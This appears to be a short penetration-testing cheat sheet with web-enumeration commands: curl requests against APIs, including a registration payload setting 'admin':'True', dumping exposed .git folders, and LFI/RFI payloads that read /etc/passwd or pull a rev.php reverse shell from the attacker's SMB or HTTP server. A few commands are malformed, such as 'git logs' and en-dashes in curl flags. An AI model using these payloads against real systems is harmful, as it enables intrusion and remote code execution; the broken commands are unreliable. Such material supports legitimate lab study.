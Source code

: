 When an error message occurs we should always take a note of it since it could help us with our initial foothold access onto the target.

### API

```bash
# Obtain information about API
curl -i "[DOMAIN]:[PORT]/[API-DIR]"

# Send POST or GET request
curl –v –X OPTIONS "[DOMAIN]:[PORT]/[API-DIR]"

# Including JSON into request: Register
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' "http://[DOMAIN]/[API-DIR]"

# Including JSON into request: Login
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json' "http://[DOMAIN]/[API-DIR]"

# Plaintext POST Request
curl -X POST --data '[PARAMETER]=' "[DOMAIN]"
```
### Git

```bash
# Git-dumper Installation
pip install git-dumper

# Download `.git` folder
wget "http://[IP]:[PORT]/.git"

# Enumerate `.git` folder
git logs
git show "[COMMIT]"
```
### LFI & RFI

File Inclusion:

```bash
?lang=en-page.php

# LFI: Linux
?lang=/etc/passwd

# LFI: Windows
?lang=/boot.ini

# SMB Service
sudo systemctl restart smbd

?lang=\\[IP]\temp\rev.php

# HTTP Service
python3 -m http.server -m

?lang=http://[IP]/rev.php
```
